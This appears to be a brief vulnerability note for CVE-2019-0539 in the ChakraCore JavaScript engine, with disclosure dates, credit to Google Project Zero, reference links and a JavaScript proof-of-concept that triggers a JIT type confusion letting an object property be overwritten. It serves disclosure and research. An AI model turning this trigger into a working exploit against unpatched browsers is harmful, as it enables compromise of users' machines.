 # CVE-2019-0539

- Report: Oct 2018
- Fix: Jan 2019
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(o, c, value) {
    o.b = 1;

    class A extends c {

    }

    o.a = value;
}

function main() {
    for (let i = 0; i < 2000; i++) {
        let o = {a: 1, b: 2};
        opt(o, (function () {}), {});
    }

    let o = {a: 1, b: 2};
    let cons = function () {};

    cons.prototype = o;

    opt(o, cons, 0x1234);

    print(o.a);
}

main();
```

## Reference
- [Exploit - 0x4142] (https://github.com/0x43434343/my_exploit/blob/master/cve-2019-0539.html) 
- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2019-0539)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1703)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/788f17b0ce06ea84553b123c174d1ff7052112a0)
